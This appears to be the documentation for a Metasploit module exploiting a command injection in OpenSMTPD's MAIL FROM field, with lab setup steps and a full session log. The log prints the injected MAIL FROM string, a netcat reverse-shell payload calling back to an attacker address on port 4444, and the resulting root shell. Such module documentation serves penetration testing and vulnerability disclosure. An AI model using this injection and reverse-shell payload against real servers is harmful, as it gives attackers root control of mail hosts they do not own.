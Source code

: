 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute code as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to
   `foo.my.domain`)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.my.domain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD >= commit a8e222352f
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > show missing

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 192.168.56.133
rhosts => 192.168.56.133
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.133:25 - Connecting to OpenSMTPD
[*] 192.168.56.133:25 - Saying hello and sending exploit
[*] 192.168.56.133:25 - Expecting: /220.*OpenSMTPD/
[+] 192.168.56.133:25 - Received: 220 foo.my.domain ESMTP OpenSMTPD
[*] 192.168.56.133:25 - Sending: HELO oKFMWnrTJZjTbzkGfVMsyDy7pO35ze
[*] 192.168.56.133:25 - Expecting: /250.*pleased to meet you/
[+] 192.168.56.133:25 - Received:
250 foo.my.domain Hello oKFMWnrTJZjTbzkGfVMsyDy7pO35ze [192.168.56.1], pleased to meet you
[*] 192.168.56.133:25 - Sending: MAIL FROM:<;for J in V e E n U T w v A K M a 0 s x;do read;done;sh;exit 0;>
[*] 192.168.56.133:25 - Expecting: /250.*Ok/
[+] 192.168.56.133:25 - Received:
250 2.0.0 Ok
[*] 192.168.56.133:25 - Sending: RCPT TO:<root>
[*] 192.168.56.133:25 - Expecting: /250.*Recipient ok/
[+] 192.168.56.133:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 192.168.56.133:25 - Sending: DATA
[*] 192.168.56.133:25 - Expecting: /354 Enter mail.*itself/
[+] 192.168.56.133:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 192.168.56.133:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/eizzy; nc 192.168.56.1 4444 0</tmp/eizzy | /bin/sh >/tmp/eizzy 2>&1; rm /tmp/eizzy
[*] 192.168.56.133:25 - Sending: .
[*] 192.168.56.133:25 - Expecting: /250.*Message accepted for delivery/
[+] 192.168.56.133:25 - Received:
250 2.0.0 ccd8e419 Message accepted for delivery
[*] 192.168.56.133:25 - Sending: QUIT
[*] 192.168.56.133:25 - Expecting: /221.*Bye/
[+] 192.168.56.133:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:16126) at 2020-02-05 16:16:59 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.my.domain 6.6 GENERIC#353 amd64
```
